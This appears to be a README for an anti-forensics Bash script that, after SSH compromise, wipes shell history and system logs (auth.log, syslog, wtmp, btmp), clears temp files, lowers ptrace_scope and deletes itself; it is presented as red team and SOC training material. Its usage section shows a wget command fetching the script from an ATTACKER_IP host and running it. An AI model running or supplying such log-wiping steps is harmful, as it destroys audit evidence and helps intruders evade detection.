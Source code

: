 # clean.sh

 Anti-Forensics Bash Script: SSH Log Wiper
This project demonstrates how attackers may clean up their traces after gaining remote access to a Linux system via SSH. It includes a Bash script that performs full cleanup of forensic artifacts, simulating realistic attacker behavior for Red Team or SOC training labs.

🎯 Features
Clears .bash_history and disables history logging

Wipes key system log files: auth.log, syslog, wtmp, btmp, etc.

Deletes temporary files from /tmp and /var/tmp

Optionally lowers ptrace_scope for stealth

Prompts user to optionally reboot the system

Self-destructs: deletes itself after execution or reboot

🧪 Lab Setup
Attacker: Kali Linux (hosts the script over HTTP)

Victim: Ubuntu server (pulls script via wget or curl and executes)

⚠️ Disclaimer
This script is for educational and red team lab use only.
Do not use on production environments or without permission.

💡 Example Use

#
wget http://<ATTACKER_IP>:8080/clean.sh -O /tmp/clean.sh
-
chmod +x /tmp/clean.sh
-
bash /tmp/clean.sh
#
